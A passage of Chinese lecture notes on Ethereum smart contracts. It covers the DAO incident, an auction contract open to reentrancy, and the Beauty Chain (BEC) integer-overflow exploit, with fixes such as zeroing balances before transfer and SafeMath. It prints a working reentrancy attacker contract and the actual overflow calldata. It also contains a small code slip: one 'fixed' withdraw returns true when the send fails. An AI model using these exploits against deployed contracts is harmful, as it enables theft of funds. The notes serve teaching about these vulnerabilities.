- block.number(uint):当前区块号
- block.timestamp(uint): 自 unix epoch 起始当前区块以秒计的时间戳
智能合约可以获得的调用信息
-
msg.data (bytes): 完整的 calldata
-
msg.gas (uint): 剩余 gas
-
msg.sender (address): 消息发送者(当前调用)
-
msg.sig (bytes4): calldata 的前 4字节(也就是函数标识符)
-
msg.value (uint): 随消息发送的 wei 的数量
-
now (uint): 目前区块时间戳(block.timestamp)
- tx.gasprice (uint): 交易的 gas 价格
- tx.origin (address): 交易发起者(完全的调用链)
这是一个调用的示例，外部交易调用C1合约，C1合约中的f1函数调用C2合约中的f2函数。对于C2合约，msg.sender是C1，tx.origin是A
智能合约中的地址类型
<address>.balance(uint256): 以 Wei 为单位的 地址类型 的余额。（这是一个成员变量，返回uint256）
<address>.transfer(uint256 amount): 向 地址类型 发送数量为 amount 的 Wei，失败时抛出异常，发送 2300gas 的矿工费，不可调节。
<address>.send(uint256 amount) returns (bool): 向 地址类型 发送数量为 amount 的 Wei，失败时返回 false，发送 2300gas 的矿工费用，不可调节。
<address>.call(...) returns (bool): 发出底层 cALL，失败时返回 false，发送所有可用 gas，不可调节。
<address>.callcode(...) returns (bool): 发出底层CALLCODE，失败时返回 fa1se，发送所有可用 gas，不可调节。
<address>.delegatecall(...) returns (bool): 发出底层 DELEGATECALL，失败时返回false，发送所有可用 gas，不可调节。
所有智能合约均可显式地转换成地址类型
address.transfer是当前账户向address转账
三种发送ETH的方式
<address>.transfer(uint256 amount)<address>.send(uint256 amount) returns (bool)<address>.call.value(uint256 amount)()
拍卖例子
这是一段简单且错误的拍卖智能合约代码
/// 对拍卖进行出价
/// 随交易一起发送的ether与之前已经发送的ether的和为本次出价
function bid() public payable {
// 对于能接收以太币的函数，关键字 payable 是必须的。
// 拍卖尚未结束
require(now<= auctionEnd);
// 如果出价不够高，本次出价无效，直接报错返回
require(bids[msg.sender]+msg.value >bids[highestBidder]);
// 如果此人之前未出价，则加入到竞拍者列表中
if (!(bids[msg.sender]== uint(0))) {
bidders.push(msg.sender);
}
// 本次出价比当前最高价高，取代之
highestBidder = msg.sender;
bids[msg.sender]+= msg.value;
emit HighestBidIncreased(msg.sender,bids[msg.sender]);
}
/// 结束拍卖，把最高的出价发送给受益人，
/// 并把未中标的出价者的钱返还
function auctionEnd() public {
// 拍卖已截止
require(now > auctionEnd);
// 该函数未被调用过
require(!ended);
// 把最高的出价发送给受益人
beneficiary.transfer(bids[highestBidder]);
for (uint i = 0; i < bidders.length; i++) {
address bidder = bidders[i];
if (bidder == highestBidder) continue;
bidder.transfer(bids[bidder]);
}
ended = true;
emit AuctionEnded(highestBidder, bids[highestBidder]);
}
假如此时有一个黑客从中捣乱，写了如下代码：
pragma solidity ^0.4.21;
import "./simpleAuctionV1.sol";
contract hackV1 {
function hack_bid(address addr) payable public {
SimpleAuctionV1 sa = simpleAuctionV1(addr);
sa.bid.value(msg.value)();
}
}
由于这段代码没写data域也没写fallback()函数，所以运行到auctionEnd()中的transfer时会报错，报错会导致回滚，于是所有人都取不到钱了
Code is Law，这就是区块链达成共识的基础。如果拍卖程序有bug，最后有人的钱取不出来，就取不出来了。。。
irrevocable trust不可篡改信托
一定要不断测试啊！
4. 重入攻击（Re-entrancy Attack）
第二版：由投标者自己取回出价？
代码
/// 使用withdraw模式
/// 由投标者自己取回出价，返回是否成功
function withdraw() public returns (bool) {
// 拍卖已截止
require(now > auctionEnd);
// 竞拍成功者需要把钱给受益人，不可取回出价
require(msg.sender!=highestBidder);
// 当前地址有钱可取
require(bids[msg.sender] > 0);
uint amount = bids[msg.sender];
if (msg.sender.call.value(amount)()) {
bids[msg.sender] = 0;
return true;
}
return false;
}
此时黑客写了如下代码：
pragma solidity ^0.4.21;
import "./simpleAuctionV2.sol";
contract HackV2 {
uint stack =0;
function hack_bid(address addr) payable public {
SimpleAuctionV2 sa = SimpleAuctionV2(addr);
sa.bid.value(msg.value)();
}
function hack_withdraw(address addr) public payable {
simpleAuctionV2(addr).withdraw();
}
function() public payable {
stack += 2;
if (msg.sender.balance >= msg.value && msg.gas > 6000 && stack < 500 {
SimpleAuctionV2(msg.sender).withdraw();
}
}
}
黑客调用hack_withdraw从拍卖合约中的if (msg.sender.call.value(amount)())语句中取钱，由于没写data域所以执行黑客自己写的fallback()函数，递归调用拍卖合约的withdraw函数。又因为执行if时bids[msg.sender] = 0;这句归零语句没有执行到，所以黑客的出价一直不会被清零，黑客可以一直从拍卖合约中取钱
后果
发生重入攻击（Re-entrancy Attack），递归重复取钱，有三种情况会停止：①钱取完了；②汽油费耗尽；③递归栈溢出
原因：转账在账户清零之前
- 当合约账户收到ETH但未调用函数时，会立刻执行fallback()函数
- 通过addr.send()、addr.transfer()、addr.call.value()()三种方式付钱都会触发addr里的fallback函数。
- fallback()函数由用户自己编写
解决方法
先清零账户，再判断，用send代替call.value转账限制汽油费
记得写fallback()函数
改法①：先清零再转账
event Pay2Beneficiary(address winner,uint amount);
/// 结束拍卖，把最高的出价发送给受益人
function pay2Beneficiary() public returns (bool) {
// 拍卖已截止
require(now > auctionEnd);
// 有钱可以支付
require(bids[highestBidder] > 0);
uint amount = bids[highestBidder];
bids[highestBidder] = 0;
emit Pay2Beneficiary(highestBidder, bids[highestBidder]);
if (!beneficiary.call.value(amount)()) {
bids[highestBidder] = amount;
return false;
}
return true;
}
改法②：使用send转账
/// 使用withdraw模式
/// 由投标者自己取回出价，返回是否成功
function withdraw() public returns (bool) {
// 拍卖已截止
require(now > auctionEnd);
// 竞拍成功者需要把钱给受益人，不可取回出价
require(msg.sender!=highestBidder);
// 当前地址有钱可取
require(bids[msg.sender] > 0);
uint amount = bids[msg.sender];
bids[msg.sender]=0;
if (!msg.sender.send(amount)) {
bids[msg.sender] = amount;
return true;
}
return false;
}
10 The DAO
DAO：Decentralized Autonomous Organization
DAC：Decentralized Autonomous Corporation一般盈利
一个去中心化的自治众筹组织The Dao，本质是一个运行在以太坊上的智能合约，通过向the DAO里打钱的方式获取代币，然后投票参与决议，代币越多权力越大，分配到的收益越多
splitDAO -> childDAO：通过拆分的方式，从大的基金会里拆分出一小部分人甚至一个人成立子基金，收回the DAO代币取回以太币打入子基金，是取回以太币的唯一途径，因为the DAO没有实现withdraw函数
拆分前有7天辩论期，拆分后有28天锁定期。以太坊硬分叉发生在这28天中
1. 代码
function splitDAO(
uint _proposalID,
address _newCurator
) noEther onlyTokenholders returns (bool _success) {
Proposal p = proposals[_proposalID];
// Sanity check
if (now < p.votingDeadline // has the voting deadline arrived?
//The request for a split expires XX days after the voting deadline
|| now > p.votingDeadline + splitExecutionPeriod
// Does the new Curator address match?
|| p.recipient != _newCurator
// Is it a new curator proposal?
|| !p.newCurator
// Have you voted for this split?
|| !p.votedYes[msg.sender]
// Did you already vote on another proposal?
|| (blocked[msg.sender] != _proposalID && blocked[msg.sender] != 0) ) {
throw;
}
// If the new DAO doesn't exist yet, create the new DAO and store the
// current split data
if (address(p.splitData[0].newDAO) == 0) {
p.splitData[0].newDAO = createNewDAO(_newCurator);
// Call depth limit reached, etc.
if (address(p.splitData[0].newDAO) == 0)
throw;
// should never happen
if (this.balance < sumOfProposalDeposits)
throw;
p.splitData[0].splitBalance = actualBalance();
p.splitData[0].rewardToken = rewardToken[address(this)];
p.splitData[0].totalSupply = totalSupply;
p.proposalPassed = true;
}
// Move ether and assign new Tokens
uint fundsToBeMoved =
(balances[msg.sender] * p.splitData[0].splitBalance) /
p.splitData[0].totalSupply;
if (p.splitData[0].newDAO.createTokenProxy.value(fundsToBeMoved)(msg.sender) == false)
throw;
// Assign reward rights to new DAO
uint rewardTokenToBeMoved =
(balances[msg.sender] * p.splitData[0].rewardToken) /
p.splitData[0].totalSupply;
uint paidOutToBeMoved = DAOpaidOut[address(this)] * rewardTokenToBeMoved /
rewardToken[address(this)];
rewardToken[address(p.splitData[0].newDAO)] += rewardTokenToBeMoved;
if (rewardToken[address(this)] < rewardTokenToBeMoved)
throw;
rewardToken[address(this)] -= rewardTokenToBeMoved;
DAOpaidOut[address(p.splitData[0].newDAO)] += paidOutToBeMoved;
if (DAOpaidOut[address(this)] < paidOutToBeMoved)
throw;
DAOpaidOut[address(this)] -= paidOutToBeMoved;
// Burn DAO Tokens
Transfer(msg.sender, 0, balances[msg.sender]);
withdrawRewardFor(msg.sender); // be nice, and get his rewards
totalSupply -= balances[msg.sender];
balances[msg.sender] = 0;
paidOut[msg.sender] = 0;
return true;
}
关键代码
function splitDAO(
uint _proposalID,
address _newCurator
) noEther onlyTokenholders returns (bool _success) {
......
// Burn DAO Tokens
Transfer(msg.sender, 0, balances[msg.sender]);
withdrawRewardFor(msg.sender); // be nice, and get his rewards
totalSupply -= balances[msg.sender];
balances[msg.sender] = 0;
paidOut[msg.sender] = 0;
return true;
}
这段代码在账户清零前转账，黑客利用这个漏洞进行重入攻击
2. 两派观点与补救措施
放任不管派
信奉Code is Law，认为放入智能合约的代码就是共识，即使是bug也要接受并达成共识
黑客在这一派中，认为这段代码没有bug，其只是利用了代码的feature取走了5000万美元，占到the DAO的1/3，没有违法
28天及时补救派
认为the DAO实在太大，too big to fail，放任不管对以太坊损害巨大
以太坊创始人Vitalik站这一派
补救措施
如何补救？
从黑客发动攻击的区块的前一个区块开始分叉攻击，那么在链上正常的交易就会被回滚，这些人是无辜的。这种方法不行
以太坊开发团队首先采用软分叉的方式，通过软件升级的方式增加一条规则，凡是与the DAO有关的交易都是非法的。大部分算力升级了软件，在新的规则下挖矿。但是这个规则忘记设置收取the DAO非法交易的汽油费，导致升级软件的矿工遭受大量DoS攻击，这些矿工逐渐绷不住了，纷纷回退到之前版本挖矿。软分叉方案宣告失败
28天的锁定期马上要结束，留给以太坊开发团队的时间不多了。于是以太坊开发团队决定采取硬分叉措施，通过软件升级的方式把the DAO账户上所有的资金强行转到另外一个新的智能合约上去，新的智能合约只有退钱一个功能。当挖到第192万个区块时，自动强制执行这个转账交易，不用任何签名，也不考虑任何合法性
以太坊社区产生激烈讨论，开发团队开发了一个用以太币投票的智能合约，按照转账的多少计算投票比例，最后全部退回各自账户。结果显示支持硬分叉的票数占多，于是大部分算力升级了软件，在挖到第192万个区块时，顺利执行了硬分叉
反对硬分叉的人认为不是所有人都参与了投票，并且认为投票这种方式不公平，于是剩下10%左右的算力留在旧链上继续挖。为了防止在两条链上实施重放攻击，给两条链增加了chainID，旧链作为Ethereum Classic（ETC）新链作为ETH在交易所交易。
为什么不只冻结黑客的账户，而把the DAO全冻结了？
因为所有人都可以调用有bug的智能合约，重新模仿黑客的盗窃行为，所以必须把the DAO的智能合约全部作废，the DAO因此只存活了三个月就解体了
11 反思
1. Is smart contract really smart?
Smart contract is anything but smart.
智能合约只是一段事先写好的程序，并不具备像人工智能那样的“智能”
2. Irrevocable is a double edged sword.
区块链的不可篡改性是一把双刃剑
升级软件？硬分叉？提供理由！
账户被盗？因为不可篡改，个人只能把剩下的钱尽快转到新的账户上，而以太坊开发团队则可以用一个软分叉冻结某个智能合约账户
当时the DAO可能的做法：用自己智能合约的bug，找一个善良的智能合约，用黑客相同的手段把钱全转走，然后让善良合约把钱退还给大家
3. Nothing is irrevocable.
以太坊团队依然修改规则软硬分叉了区块链
美国宪法修正案18：Prohibition禁酒令；美国宪法修正案21：推翻禁酒令
open container laws美国法律禁止大街上和交通工具里饮酒
4. Is solidity the right programming language?
Ocaml一种纯函数式编程语言，还有Haskell
formal verification形式化证明需要abstract away many implementation details
函数式编程？形式化证明？有待探讨
智能合约产生模板避免错误？
5. Many eyeball fallacy(misbelief)
即使开源，也不会有很多人去看源代码，更少的人能看懂源代码
需要自己提高警惕，保护财产安全
6. What does decentralization mean?
去中心化是完全机器自动化抛弃人类介入吗？不是，去中心化指的是人类管理用去中心化的方式
分叉也是一种去中心化的表现
Vitalik早年喜欢玩魔兽世界，但是有一天暴雪删掉了他最喜欢英雄的一个技能，Vitalik多次反馈无果一气之下退坑。夜深人静时，Vitalik反思为什么会出现这种情况，认为是暴雪太中心化了，于是开创了一个去中心化的平台orz
7. decentralized≠distributed
分布式可以是中心化的，也可以是去中心化的，比如谷歌的服务器集群是中心化的，但可以是分布式的
分布式系统的初衷是多个机器完成不同的工作，更快；但是区块链的初衷是容错，维护一个相同的state machine状态机
mission critical applications：①air traffic control ②stock exchange ③space shuttle适用状态机的模型，用一台或几台机器提供必须无间断运行的服务
比特币这种大规模的状态机系统前所未有，不是分布式系统的常态，速度慢且贵。智能合约的出现只是为了满足在互不相识的节点中间建立共识机制
12 Beauty Chain美链
美链(Beauty Chain)是一个部署在以太坊上的智能合约，有自己的代币BEC：
- 没有自己的区块链，代币的发行、转账都是通过调用智能合约中的函数来完成的
- 可以自己定义发行规则，每个账户有多少代币也是保存在智能合约的状态变量里
- ERC 20是以太坊上发行代币的一个标准，规范了所有发行代币的合约应该实现的功能和遵循的接口（Ethereum Request for Comments）
- 美链中有一个叫batchTransfer的函数，它的功能是向多个接收者发送代币，然后把这些代币从调用者的帐户上扣除
IPO首次公开上市：Initial Public Offering
ICO：Initial Coin Offering
1. 代码
/**
*Submitted for verification at Etherscan.io on 2018-02-09
*/
pragma solidity ^0.4.16;
/**
* @title SafeMath
* @dev Math operations with safety checks that throw on error
*/
library SafeMath {
function mul(uint256 a, uint256 b) internal constant returns (uint256) {
uint256 c = a * b;
assert(a == 0 || c / a == b);
return c;
}
function div(uint256 a, uint256 b) internal constant returns (uint256) {
// assert(b > 0); // Solidity automatically throws when dividing by 0
uint256 c = a / b;
// assert(a == b * c + a % b); // There is no case in which this doesn't hold
return c;
}
function sub(uint256 a, uint256 b) internal constant returns (uint256) {
assert(b <= a);
return a - b;
}
function add(uint256 a, uint256 b) internal constant returns (uint256) {
uint256 c = a + b;
assert(c >= a);
return c;
}
}
/**
* @title ERC20Basic
* @dev Simpler version of ERC20 interface
* @dev see https://github.com/ethereum/EIPs/issues/179
*/
contract ERC20Basic {
uint256 public totalSupply;
function balanceOf(address who) public constant returns (uint256);
function transfer(address to, uint256 value) public returns (bool);
event Transfer(address indexed from, address indexed to, uint256 value);
}
/**
* @title Basic token
* @dev Basic version of StandardToken, with no allowances.
*/
contract BasicToken is ERC20Basic {
using SafeMath for uint256;
mapping(address => uint256) balances;
/**
* @dev transfer token for a specified address
* @param _to The address to transfer to.
* @param _value The amount to be transferred.
*/
function transfer(address _to, uint256 _value) public returns (bool) {
require(_to != address(0));
require(_value > 0 && _value <= balances[msg.sender]);
// SafeMath.sub will throw if there is not enough balance.
balances[msg.sender] = balances[msg.sender].sub(_value);
balances[_to] = balances[_to].add(_value);
Transfer(msg.sender, _to, _value);
return true;
}
/**
* @dev Gets the balance of the specified address.
* @param _owner The address to query the the balance of.
* @return An uint256 representing the amount owned by the passed address.
*/
function balanceOf(address _owner) public constant returns (uint256 balance) {
return balances[_owner];
}
}
/**
* @title ERC20 interface
* @dev see https://github.com/ethereum/EIPs/issues/20
*/
contract ERC20 is ERC20Basic {
function allowance(address owner, address spender) public constant returns (uint256);
function transferFrom(address from, address to, uint256 value) public returns (bool);
function approve(address spender, uint256 value) public returns (bool);
event Approval(address indexed owner, address indexed spender, uint256 value);
}
/**
* @title Standard ERC20 token
*
* @dev Implementation of the basic standard token.
* @dev https://github.com/ethereum/EIPs/issues/20
* @dev Based on code by FirstBlood: https://github.com/Firstbloodio/token/blob/master/smart_contract/FirstBloodToken.sol
*/
contract StandardToken is ERC20, BasicToken {
mapping (address => mapping (address => uint256)) internal allowed;
/**
* @dev Transfer tokens from one address to another
* @param _from address The address which you want to send tokens from
* @param _to address The address which you want to transfer to
* @param _value uint256 the amount of tokens to be transferred
*/
function transferFrom(address _from, address _to, uint256 _value) public returns (bool) {
require(_to != address(0));
require(_value > 0 && _value <= balances[_from]);
require(_value <= allowed[_from][msg.sender]);
balances[_from] = balances[_from].sub(_value);
balances[_to] = balances[_to].add(_value);
allowed[_from][msg.sender] = allowed[_from][msg.sender].sub(_value);
Transfer(_from, _to, _value);
return true;
}
/**
* @dev Approve the passed address to spend the specified amount of tokens on behalf of msg.sender.
*
* Beware that changing an allowance with this method brings the risk that someone may use both the old
* and the new allowance by unfortunate transaction ordering. One possible solution to mitigate this
* race condition is to first reduce the spender's allowance to 0 and set the desired value afterwards:
* https://github.com/ethereum/EIPs/issues/20#issuecomment-263524729
* @param _spender The address which will spend the funds.
* @param _value The amount of tokens to be spent.
*/
function approve(address _spender, uint256 _value) public returns (bool) {
allowed[msg.sender][_spender] = _value;
Approval(msg.sender, _spender, _value);
return true;
}
/**
* @dev Function to check the amount of tokens that an owner allowed to a spender.
* @param _owner address The address which owns the funds.
* @param _spender address The address which will spend the funds.
* @return A uint256 specifying the amount of tokens still available for the spender.
*/
function allowance(address _owner, address _spender) public constant returns (uint256 remaining) {
return allowed[_owner][_spender];
}
}
/**
* @title Ownable
* @dev The Ownable contract has an owner address, and provides basic authorization control
* functions, this simplifies the implementation of "user permissions".
*/
contract Ownable {
address public owner;
event OwnershipTransferred(address indexed previousOwner, address indexed newOwner);
/**
* @dev The Ownable constructor sets the original `owner` of the contract to the sender
* account.
*/
function Ownable() {
owner = msg.sender;
}
/**
* @dev Throws if called by any account other than the owner.
*/
modifier onlyOwner() {
require(msg.sender == owner);
_;
}
/**
* @dev Allows the current owner to transfer control of the contract to a newOwner.
* @param newOwner The address to transfer ownership to.
*/
function transferOwnership(address newOwner) onlyOwner public {
require(newOwner != address(0));
OwnershipTransferred(owner, newOwner);
owner = newOwner;
}
}
/**
* @title Pausable
* @dev Base contract which allows children to implement an emergency stop mechanism.
*/
contract Pausable is Ownable {
event Pause();
event Unpause();
bool public paused = false;
/**
* @dev Modifier to make a function callable only when the contract is not paused.
*/
modifier whenNotPaused() {
require(!paused);
_;
}
/**
* @dev Modifier to make a function callable only when the contract is paused.
*/
modifier whenPaused() {
require(paused);
_;
}
/**
* @dev called by the owner to pause, triggers stopped state
*/
function pause() onlyOwner whenNotPaused public {
paused = true;
Pause();
}
/**
* @dev called by the owner to unpause, returns to normal state
*/
function unpause() onlyOwner whenPaused public {
paused = false;
Unpause();
}
}
/**
* @title Pausable token
*
* @dev StandardToken modified with pausable transfers.
**/
contract PausableToken is StandardToken, Pausable {
function transfer(address _to, uint256 _value) public whenNotPaused returns (bool) {
return super.transfer(_to, _value);
}
function transferFrom(address _from, address _to, uint256 _value) public whenNotPaused returns (bool) {
return super.transferFrom(_from, _to, _value);
}
function approve(address _spender, uint256 _value) public whenNotPaused returns (bool) {
return super.approve(_spender, _value);
}
function batchTransfer(address[] _receivers, uint256 _value) public whenNotPaused returns (bool) {
uint cnt = _receivers.length;
uint256 amount = uint256(cnt) * _value;
require(cnt > 0 && cnt <= 20);
require(_value > 0 && balances[msg.sender] >= amount);
balances[msg.sender] = balances[msg.sender].sub(amount);
for (uint i = 0; i < cnt; i++) {
balances[_receivers[i]] = balances[_receivers[i]].add(_value);
Transfer(msg.sender, _receivers[i], _value);
}
return true;
}
}
/**
* @title Bec Token
*
* @dev Implementation of Bec Token based on the basic standard token.
*/
contract BecToken is PausableToken {
/**
* Public variables of the token
* The following variables are OPTIONAL vanities. One does not have to include them.
* They allow one to customise the token contract & in no way influences the core functionality.
* Some wallets/interfaces might not even bother to look at this information.
*/
string public name = "BeautyChain";
string public symbol = "BEC";
string public version = '1.0.0';
uint8 public decimals = 18;
/**
* @dev Function to check the amount of tokens that an owner allowed to a spender.
*/
function BecToken() {
totalSupply = 7000000000 * (10**(uint256(decimals)));
balances[msg.sender] = totalSupply; // Give the creator all initial tokens
}
function () {
//if ether is sent to this address, send it back.
revert();
}
}
关键代码
function batchTransfer(address[] _receivers, uint256 _value) public whenNotPaused returns (bool) {
uint cnt = _receivers.length;
uint256 amount = uint256(cnt) * _value;
require(cnt > 0 && cnt <= 20);
require(_value > 0 && balances[msg.sender] >= amount);
balances[msg.sender] = balances[msg.sender].sub(amount);
for (uint i = 0; i < cnt; i++) {
balances[_receivers[i]] = balances[_receivers[i]].add(_value);
Transfer(msg.sender, _receivers[i], _value);
}
return true;
}
问题出在这一句
uint256 amount = uint256(cnt) * _value;
假如_value是个很大的数，做乘法后会溢出，amount变为很小的值，但是依然向账户里打进去了_value很大数目的代币
攻击细节
Function: batchTransfer(address[] _receivers, uint256 _value)
MethodID: 0x83f12fec
[0]: 0000000000000000000000000000000000000000000000000000000000000040
[1]: 8000000000000000000000000000000000000000000000000000000000000000
[2]: 0000000000000000000000000000000000000000000000000000000000000002
[3]: 000000000000000000000000b4d30cac5124b46c2df0cf3e3e1be05f42119033
[4]: 0000000000000000000000000e823ffe018727585eaf5bc769fa80472f76c3d7
- 第0号参数是 receivers数组在参数列表中的位置，即从第64个byte开始，也就是第2号参数
- 第2号参数先指明数组长度为2，然后第3号参数和第4号参数表明两个接受者的地址
- 第1号参数是给每个接受者转账的金额
- 通过这样的参数计算出来的amount恰好溢出为0!
可以发现转入了两笔非常大数目的BEC
攻击发生在2018年4月22日，攻击发生后币值暴跌
随后交易所发布公告，暂停BEC交易和提现，并决定回滚交易
预防措施
以太坊提供了SafeMath库：只要通过SafeMath提供的乘法计算amount，就可以很容易地检测到溢出
/**
* @dev Returns the multiplication of two unsigned integers, with a success flag (no overflow).
*/
function tryMul(uint256 a, uint256 b) internal pure returns (bool success, uint256 result) {
unchecked {
uint256 c = a * b;
assembly ("memory-safe") {
// Only true when the multiplication doesn't overflow
// (c / a == b) || (a == 0)
success := or(eq(div(c, a), b), iszero(a))
}
// equivalent to: success ? c : 0
result = c * SafeCast.toUint(success);
}
}
调用这个库可以检测溢出，比如上面必须检测除回去是一样的才能通过
13 总结
1. 质疑？
任何事物都上链？并不好
保险公司上链？保险理赔慢并不是因为转账慢，而是理赔的核实需要时间
有机蔬菜上链？并不是记录了就一定是有机蔬菜，在现实中的掉包和操作在区块链上都看不出来
不信任的电商？区块链并不能把链和现实电商联系起来
亚马逊接受比特币支付？可能，这是中心化的机构接受去中心化的支付方式
上链后无法撤销？并不是把之前的交易消除，而是新建一笔退还的交易
缺乏监管？看似自由，但是假如出了任何事，没有司法保护。但是监管手段与比特币交易层面没有必然联系，因为各地法律法规不同，更重要的是，比特币本来就不应该跟已有的支付方式竞争
worldwide currency？跨境支付转账依赖中心化的银行等，十分困难
信息传播网络->价值传播网络？Information can flow freely on the Internet, but payment cannot. 未来支付渠道与信息传播渠道逐渐融合
不环保？①比特币本来就不应该跟已有的支付方式竞争；②新的加密货币在支付效率上有了很大提升；③应该与同时代的技术相比较
智能合约普通人看不懂，不利检查安全漏洞？Software is eating the world！会不会因为ATM机出故障就不用了？
商业模式正确性？the DAO投票机制的民主性？Democracy is the worst form of Government except for all those other forms that have been tried from time to time.
Is decentralization always a good thing？去中心化和投票并不是一个完美的东西。If the business model is bad, it’s still bad on the Internet